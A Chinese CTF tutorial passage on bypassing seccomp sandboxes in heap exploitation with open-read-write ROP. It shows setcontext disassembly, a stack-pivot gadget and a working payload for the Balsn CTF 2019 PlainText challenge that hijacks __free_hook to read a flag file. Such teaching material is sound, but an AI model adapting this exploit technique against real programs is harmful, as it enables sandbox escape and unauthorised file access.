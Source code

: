 # C 沙盒逃逸
## orw

有些时候 pwn 题目中为了增加难度，会使用类似 [seccomp](https://en.wikipedia.org/wiki/Seccomp) 的函数来禁用一部分系统调用，往往会把 execve 这种系统调用禁用掉，基本上拿 shell 是不可能了，但是我们 pwn 题是面向 flag 的，所以还是可以通过 orw（ open-read-write ）的方法来读出 flag 的。在栈上的 orw 和 普通 rop 其实没有什么特别大的区别，这里主要谈一谈堆利用中的白名单绕过。

一般来说，开启了白名单的堆利用类题，我们会在劫持了某钩子函数如 __free_hook 或 got 表之后考虑实现 orw，这个时候我们只可以注入一个 gadget，一般来说我们希望这个 gadget 能够实现栈迁移，一种比较通用的做法是利用 setcontext 函数，其在 libc-2.29 中实现为

```
.text:0000000000055E00 ; __unwind {
.text:0000000000055E00                 push    rdi
.text:0000000000055E01                 lea     rsi, [rdi+128h] ; nset
.text:0000000000055E08                 xor     edx, edx        ; oset
.text:0000000000055E0A                 mov     edi, 2          ; how
.text:0000000000055E0F                 mov     r10d, 8         ; sigsetsize
.text:0000000000055E15                 mov     eax, 0Eh
.text:0000000000055E1A                 syscall                 ; LINUX - sys_rt_sigprocmask
.text:0000000000055E1C                 pop     rdx
.text:0000000000055E1D                 cmp     rax, 0FFFFFFFFFFFFF001h
.text:0000000000055E23                 jnb     short loc_55E80
.text:0000000000055E25                 mov     rcx, [rdx+0E0h]
.text:0000000000055E2C                 fldenv  byte ptr [rcx]
.text:0000000000055E2E                 ldmxcsr dword ptr [rdx+1C0h]
.text:0000000000055E35                 mov     rsp, [rdx+0A0h]
.text:0000000000055E3C                 mov     rbx, [rdx+80h]
.text:0000000000055E43                 mov     rbp, [rdx+78h]
.text:0000000000055E47                 mov     r12, [rdx+48h]
.text:0000000000055E4B                 mov     r13, [rdx+50h]
.text:0000000000055E4F                 mov     r14, [rdx+58h]
.text:0000000000055E53                 mov     r15, [rdx+60h]
.text:0000000000055E57                 mov     rcx, [rdx+0A8h]
.text:0000000000055E5E                 push    rcx
.text:0000000000055E5F                 mov     rsi, [rdx+70h]
.text:0000000000055E63                 mov     rdi, [rdx+68h]
.text:0000000000055E67                 mov     rcx, [rdx+98h]
.text:0000000000055E6E                 mov     r8, [rdx+28h]
.text:0000000000055E72                 mov     r9, [rdx+30h]
.text:0000000000055E76                 mov     rdx, [rdx+88h]
.text:0000000000055E76 ; } // starts at 55E00
```

当然其他版本也大同小异，可见在这个函数中有对 rsp 的赋值，如果我们可以控制 rdx，就可以控制 rsp 实现栈迁移了。

### 例题
#### Balsn_CTF_2019-PlainText
##### 分析
在 orw 之前的利用这里不再赘述，请见《Glibc Heap 利用》目录下的《堆中的 Off-By-One》中对此题的分析

比较讨厌的是，在 libc-2.29 下，free 函数不会再将 rdi 赋值给 rdx，我们无法直接控制 rdx，仅能控制 rdi，幸好比较巧合的，在本题的 libc 中有这样一个 gadget

```
0x12be97: mov rdx, qword ptr [rdi + 8]; mov rax, qword ptr [rdi]; mov rdi, rdx; jmp rax;
```

通过使用这个 gadget 之后改变 rdx，ret 到 setcontext 之后就可以 rop 了（这个 chunk 无法通过 ROPgadget 找出，需要使用 ropper）。
##### exploit
这里只给出 payload
```python
## alloc to __free_hook ##
magic_gadget = libc_base + 0x12be97
add(0x28,p64(magic_gadget)) # 73

pop_rdi_ret = libc_base + 0x26542
pop_rsi_ret = libc_base + 0x26f9e
pop_rdx_ret = libc_base + 0x12bda6
syscall_ret = libc_base + 0xcf6c5
pop_rax_ret = libc_base + 0x47cf8
ret = libc_base + 0xc18ff

payload_addr = heap_base + 0x270
str_flag_addr = heap_base + 0x270 + 5 * 0x8 + 0xB8
rw_addr = heap_base 

payload = p64(libc_base + 0x55E35) # rax
payload += p64(payload_addr - 0xA0 + 0x10) # rdx
payload += p64(payload_addr + 0x28)
payload += p64(ret)
payload += ''.ljust(0x8,'\x00')

rop_chain = ''
rop_chain += p64(pop_rdi_ret) + p64(str_flag_addr) # name = "./flag"
rop_chain += p64(pop_rsi_ret) + p64(0)
rop_chain += p64(pop_rdx_ret) + p64(0)
rop_chain += p64(pop_rax_ret) + p64(2) + p64(syscall_ret) # sys_open
rop_chain += p64(pop_rdi_ret) + p64(3) # fd = 3
rop_chain += p64(pop_rsi_ret) + p64(rw_addr) # buf
rop_chain += p64(pop_rdx_ret) + p64(0x100) # len
rop_chain += p64(libc_base + libc.symbols["read"])
rop_chain += p64(pop_rdi_ret) + p64(1) # fd = 1
rop_chain += p64(pop_rsi_ret) + p64(rw_addr) # buf
rop_chain += p64(pop_rdx_ret) + p64(0x100) # len
rop_chain += p64(libc_base + libc.symbols["write"])

payload += rop_chain
payload += './flag\x00'
add(len(payload) + 0x10,payload) # 74
#gdb.attach(proc.pidof(sh)[0])
delete(74)

sh.interactive()
```
